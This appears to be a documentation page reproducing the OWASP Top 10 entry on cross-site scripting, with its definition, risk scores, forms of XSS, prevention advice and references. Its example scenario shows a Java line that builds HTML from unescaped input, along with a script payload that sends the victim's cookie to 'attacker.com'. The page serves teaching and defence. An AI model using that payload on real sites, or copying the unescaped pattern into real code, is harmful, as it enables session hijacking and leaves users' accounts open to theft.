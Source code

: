 ```yaml
---
name: A7 Cross-site scripting (XSS)
menu: OWASP Top 10
route: /owasp/a7_cross-site_scripting_xss
---
```


# A7 Cross-site scripting (XSS)

## Definition

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

## Risk Factor Summary

- Score: 6.0
- Attack Vectors Exploitability: 3
- Security Weakness Prevalence: 3
- Security Weakness Detectability: 3
- Impact Technical: 2

## Context

Automated tools can detect and
exploit all three forms of XSS, and
there are freely available exploitation
frameworks.


XSS is the second most prevalent issue in the
OWASP Top 10, and is found in around two-thirds of
all applications.


Automated tools can find some XSS problems
automatically, particularly in mature technologies
such as PHP, J2EE / JSP, and ASP.NET.


The impact of XSS is moderate for
reflected and DOM XSS, and severe
for stored XSS, with remote code
execution on the victim's browser,
such as stealing credentials,
sessions, or delivering malware to the
victim.

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

- **Reflected XSS:** The application or API includes unvalidated and
unescaped user input as part of HTML output. A successful
attack can allow the attacker to execute arbitrary HTML and
JavaScript in the victim’s browser. Typically the user will need to
interact with some malicious link that points to an attackercontrolled page, such as malicious watering hole websites,
advertisements, or similar.

- **Stored XSS:** The application or API stores unsanitized user
input that is viewed at a later time by another user or an
administrator. Stored XSS is often considered a high or critical
risk.

- **DOM XSS:** JavaScript frameworks, single-page applications, and
APIs that dynamically include attacker-controllable data to a
page are vulnerable to DOM XSS. Ideally, the application would
not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover,
MFA bypass, DOM node replacement or defacement (such as
trojan login panels), attacks against the user's browser such as
malicious software downloads, key logging, and other client-side
attacks.

## How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design,
such as the latest Ruby on Rails, React JS. Learn the
limitations of each framework's XSS protection and
appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
the HTML output (body, attribute, JavaScript, CSS, or URL) will
resolve Reflected and Stored XSS vulnerabilities. The OWASP
[Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
escaping techniques.
- Applying context-sensitive encoding when modifying the
browser document on the client side acts against DOM XSS.
When this cannot be avoided, similar context sensitive
escaping techniques can be applied to browser APIs as
described in the [OWASP Cheat Sheet 'DOM based XSS
Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
mitigating control against XSS. It is effective if no other
vulnerabilities exist that would allow placing malicious code via
local file includes (e.g. path traversal overwrites or vulnerable
libraries from permitted content delivery networks).

## Example Attack Scenarios

### Scenario #1: 
The application uses untrusted data in the
construction of the following HTML snippet without validation or
escaping:
```
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:
```
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

This attack causes the victim’s session ID to be sent to the
attacker’s website, allowing the attacker to hijack the user’s
current session.

Note: Attackers can use XSS to defeat any automated CrossSite Request Forgery (CSRF) defense the application might
employ.

## Hacking Playground

- [🐐 NodeGoat | A7 Cross-site scripting (XSS)](https://nodegoat.herokuapp.com/tutorial/a7)
- [🧃 Pwning OWASP Juice Shop | A7 Cross-site scripting (XSS)](https://pwning.owasp-juice.shop/part2/xss.html)

## References

### OWASP

- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community//xss-filter-evasion-cheatsheet)

### CWEs

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)